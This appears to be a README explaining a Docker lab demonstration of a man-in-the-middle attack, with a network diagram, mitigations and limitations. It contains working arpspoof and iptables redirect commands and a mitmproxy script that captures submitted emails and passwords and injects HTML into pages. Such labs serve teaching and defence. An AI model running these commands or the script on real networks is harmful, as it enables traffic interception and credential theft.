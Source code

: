 # Technical Explanation of the Docker MITM Attack

This document provides a technical explanation of how the Man-in-the-Middle (MITM) attack works in this Docker demonstration.

## Network Architecture

### Container Setup
```
┌─────────┐      ┌─────────┐      ┌─────────┐
│  Alice  │ ←──→ │   Eve   │ ←──→ │   Bob   │
│(Firefox)│      │ (MITM)  │      │ (HTTP)  │
└─────────┘      └─────────┘      └─────────┘
172.19.0.2       172.19.0.x       172.19.0.3
```

- All containers are connected to a Docker bridge network (`mitm`)
- Each container gets an IP address in the 172.19.0.0/16 subnet
- DNS resolution is handled by Docker's built-in DNS server

## Attack Components

### 1. ARP Spoofing (Address Resolution Protocol)

```bash
arpspoof -t 172.19.0.2 172.19.0.3  # Tell Alice that Eve is Bob
arpspoof -t 172.19.0.3 172.19.0.2  # Tell Bob that Eve is Alice
```

#### How ARP Spoofing Works:
1. ARP maps IP addresses to MAC addresses in local networks
2. Eve sends fake ARP responses to:
   - Tell Alice that Bob's IP (172.19.0.3) is at Eve's MAC address
   - Tell Bob that Alice's IP (172.19.0.2) is at Eve's MAC address
3. This makes all traffic between Alice and Bob pass through Eve

### 2. IP Forwarding and Traffic Redirection

```bash
# Enable IP forwarding in Eve's container
sysctl net.ipv4.ip_forward=1

# Redirect HTTP traffic to mitmproxy
iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8082
```

#### How Traffic Redirection Works:
1. IP forwarding allows Eve to pass traffic between Alice and Bob
2. iptables NAT rule redirects HTTP traffic (port 80) to mitmproxy (port 8082)
3. Traffic flow:
   ```
   Alice:80 → Eve:80 → iptables REDIRECT → Eve:8082 (mitmproxy) → Eve:80 → Bob:80
   ```

### 3. MITM Proxy (mitmproxy)

```python
# proxy.py
from mitmproxy import http

def request(flow: http.HTTPFlow) -> None:
    if flow.request.method == "POST":
        try:
            form_data = dict(flow.request.urlencoded_form)
            if "email" in form_data and "password" in form_data:
                print(f"[*] Captured credentials:")
                print(f"Email: {form_data['email']}")
                print(f"Password: {form_data['password']}")
        except:
            pass

def response(flow: http.HTTPFlow) -> None:
    if "text/html" in flow.response.headers.get("content-type", ""):
        html = flow.response.content.decode()
        if "ZAICO Login" in html:
            # Modify the response
            html = html.replace('</style>', '''
                .hacked-message {
                    display: none;
                }
            </style>
            <div class="hacked-message">This page has been compromised!</div>
            ''')
        flow.response.content = html.encode()
```

#### How MITM Proxy Works:
1. Runs in transparent mode on port 8082
2. Intercepts HTTP traffic:
   - Request phase: Captures form submissions (credentials)
   - Response phase: Modifies HTML content
3. Maintains two separate connections:
   - Client-side: Acts as the server to Alice
   - Server-side: Acts as the client to Bob

## Security Implications

### Attack Capabilities
1. **Passive Attacks**:
   - Eavesdropping on unencrypted traffic
   - Capturing sensitive form data
   - Session monitoring

2. **Active Attacks**:
   - Content modification
   - Request/response manipulation
   - JavaScript injection

### Mitigations
1. **HTTPS**: Would require SSL/TLS certificate validation
2. **Certificate Pinning**: Would prevent MITM even with trusted certificates
3. **ARP Security**:
   - Static ARP entries
   - ARP spoofing detection
   - Network segmentation

## Technical Limitations

1. **Docker Network**:
   - Limited to containers on the same bridge network
   - No external network access in this demo

2. **HTTP Only**:
   - Demo works with HTTP traffic
   - HTTPS would require additional certificate setup

3. **Platform Specific**:
   - Some images may require platform-specific builds (arm64 vs amd64)
   - Network capabilities must be enabled in containers 